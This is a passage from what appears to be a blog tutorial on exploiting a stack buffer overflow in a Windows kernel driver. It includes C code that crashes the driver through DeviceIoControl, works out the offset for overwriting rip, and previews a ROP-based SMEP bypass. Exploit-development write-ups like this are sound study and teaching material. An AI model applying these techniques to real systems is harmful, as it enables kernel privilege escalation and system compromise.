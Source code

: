 ```C
	DWORD bytesReturned;

	char exploitBuffer[0x1000]; // 0x800 = 2048.

	memset(exploitBuffer, 'A', sizeof(exploitBuffer));

	DeviceIoControl(hDevice, IO_CODE, exploitBuffer, sizeof(exploitBuffer), NULL, 0, &bytesReturned, NULL);

	CloseHandle(hDevice);

	return 0;
}
```

Here, we supply a buffer in size of `0x1000` which is `4096` bytes.
Running the above is causing a system crash -

![](https://github.com/amitschendel/amitschendel.github.io/blob/master/assets/images/Pasted%20image%20220104094251.png?raw=true)

We can see it happend during the `ret` instruction, Let's dump the stack to see the address we are attempting to return to -

![](https://github.com/amitschendel/amitschendel.github.io/blob/master/assets/images/Pasted%20image%20220104094820.png?raw=true)

Awesome, it means we can control `rip` when returning from the function.

### Finding ret Exact Offest

We need to find the exact offset of the `ret` instruction, we can do it by using some pattern generator like this one - [wiremask.eu](https://wiremask.eu/tools/buffer-overflow-pattern-generator/?)

Or, we can just look at the assembly and figure it out -

From xpn's blog -
![](https://github.com/amitschendel/amitschendel.github.io/blob/master/assets/images/Pasted%20image%20220104121456.png?raw=true)

We can see that our data is `800h` in size, adding 8 bytes to that because of `rbp` being pushed to the stack at the start of the function and we get `808h=2056`, this is the size of the buffer, now we want to add 8 more bytes that will be used for `rip`.

```c
char exploit[2056 + 8];
memset(exploit, 'A', sizeof(exploit-8));
*(unsigned long long *)(exploit + 2056) = (unsigned long long)shellcode;
```

The above code would have been great if we were to exploit Window 7, but, since Windows 8.1 we have SMEP in place so we can't execute our shellcode from user space. Or can we?
Last blog I coverd one way of bypassing SMEP by flipping a bit in the pte, this time we are going to use ROP in order to flip a bit in cr4. If you don't know what SMEP is there is a lot of information about it in google so just search it, or refer to my last blog post.

### Finding ROP Gadgets
The first gadget we are going to use is -
